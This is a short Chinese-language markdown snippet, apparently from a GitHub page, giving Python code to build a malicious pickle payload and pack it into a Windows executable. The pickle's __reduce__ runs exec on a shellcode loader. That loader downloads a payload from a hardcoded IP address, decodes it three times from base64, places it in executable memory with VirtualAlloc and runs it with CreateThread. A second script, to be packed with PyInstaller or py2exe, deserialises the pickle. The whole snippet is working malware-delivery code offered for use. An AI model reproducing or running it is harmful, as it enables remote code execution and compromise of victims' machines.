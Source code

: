 #### 打包exe

生成pickle payload

```python
import ctypes, urllib.request, base64, codecs, pickle

shellcode = '''ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64

_shellcode = urllib.request.urlopen('http://192.168.31.29/pay1').read()
_shellcode = base64.b64decode(_shellcode)
_shellcode = base64.b64decode(_shellcode)
_shellcode = base64.b64decode(_shellcode)
_shellcode = codecs.escape_decode(_shellcode)[0]

_shellcode = bytearray(_shellcode)
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(_shellcode)), ctypes.c_int(0x3000), ctypes.c_int(0x40))

buf = (ctypes.c_char * len(_shellcode)).from_buffer(_shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_uint64(ptr),
    buf,
    ctypes.c_int(len(_shellcode))
)

handle = ctypes.windll.kernel32.CreateThread(
    ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.c_uint64(ptr),
    ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.pointer(ctypes.c_int(0))
)

ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle), ctypes.c_int(-1))'''

class A(object):
    def __reduce__(self):
        return(exec, (shellcode,))

ret = pickle.dumps(A())
ret_base64 = base64.b64encode(ret)
print(ret_base64)
```

被pyinstaller或py2exe打包的部分 pack1.py

```python
import ctypes,urllib.request,codecs,base64,pickle
ret_base64 = b""
pickle.loads(base64.b64decode(ret_base64))
```
